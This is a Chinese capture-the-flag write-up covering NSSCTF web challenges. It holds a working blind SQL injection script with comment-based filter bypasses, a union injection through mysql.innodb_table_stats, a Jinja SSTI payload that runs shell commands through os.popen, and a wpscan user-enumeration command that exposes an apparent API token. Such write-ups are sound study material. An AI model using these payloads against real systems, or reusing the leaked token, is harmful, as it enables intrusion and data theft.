 盲注

```python
import requests

url='http://43.143.7.127:28931/index.php'
str=',0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefgh*--  ijklmnopqrstuvwxyz{}'
flag='nssctf{'
for j in range(1,1000):
    for i in range(len(str)):
        pay=flag+str[i]
        data={'id':f"0'||(('{pay}')<(select/**/*/**/from/**/ctftraining.flag/**/limit/**/1));\x00"}
        print(data)
        r=requests.post(url,data=data)
        # print(r.text)
        if 'I am so handsome' not in r.text:
            if str[i-1]==',':
                flag+='-'
            else:
                flag+=str[i-1]
            print(flag)
            break
```

当时不知道怎么就注出来了，但是现在有点bug，改改换成ascii就行

其实就是一个无列名注入

因为**information_schema**被过滤了，可以用**InnoDB**代替，但是查不到列名

我这种比较的做法属于是另辟蹊径了

正常做法

```bash
0'union/**/select/**/1,2,group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='ctftraining
```

### ez_SSTI

字符串拼接即可

```bash
http://43.143.7.97:28254/?name={{config.__class__.__init__.__globals__['os']['popen']('cat flag').read()}}
```

### ohmywordpress

先用在docker上装的wpscan扫一下

```bash
docker run -it --rm wpscanteam/wpscan --url http://43.143.7.97:28020/ --enumerate u --random-user-agent --api-token UaseeavNdaG99aDLEBlasGIhOn3BntZpQf4E4Zwh6CA
```

必须要用`--random-user-agent`默认的useragen应该被ban了，没任何回显
